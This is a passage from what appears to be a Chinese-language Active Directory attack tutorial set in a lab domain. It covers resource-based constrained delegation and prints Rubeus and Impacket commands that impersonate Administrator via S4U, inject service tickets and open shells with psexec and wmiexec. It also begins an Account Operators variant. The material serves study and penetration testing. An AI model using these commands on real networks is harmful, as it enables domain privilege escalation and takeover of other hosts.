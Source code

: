   ![sdi-get](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/sdi-get.png)

+ 申请票据阶段

  **Rubeus**

  ```shell
  # 通过Rubeus申请机器账户CPT01$的TGT
  Rubeus.exe asktgt /user:testv$ /password:!qaz@WSX /domain:hack.com /dc:DC.hack.com /nowrap /outfile:testv.kirbi
  
  # 使用S4U2Self协议申请TGS并且使用S4U2Proxy协议请求cifs服务票据ST，注入内存中
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/PC.hack.com /dc:DC.hack.com /nowrap /ptt /ticket:your-ticket
  
  ```

  ![klist (2)](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/klist%20(2).png)

此时就能访问PC的cifs服务，也能够使用Psexec去起一个PC的shell

**Impacket**

与rubeus同理，直接使用脚本进行请求即可

```shell
# 使用getST.py申请票据
python3 getST.py hack.com/testv$:\!qaz@WSX -spn cifs/PC.hack.com -impersonate administrator -dc-ip 192.168.30.10

# 导入票据
export KRB5CCNAME=administrator.ccache

# 直接登录
python3 wmiexec.py -k PC.hack.com -no-pass -dc-ip 192.168.30.10
python3 psexec.py -k PC.hack.com -no-pass -dc-ip 192.168.30.10
```

### 攻击手法二

**使用Account Operators组成员**

条件

1. 获取到属于Account Operators组的用户账户
2. 可以创建机器账户

能够获取到Account Operators组用户的权限，可以获得域内除域控以外的机器

**Account Operators组成员可以修改**域内任意主机**的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性**

+ 查询该组成员

  ```shell
  adfind.exe -h 192.168.30.10 -s subtree -b CN="Account Operators",CN=Builtin,DC=hack,DC=com member
  ```

  ![jackson](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/jackson.png)
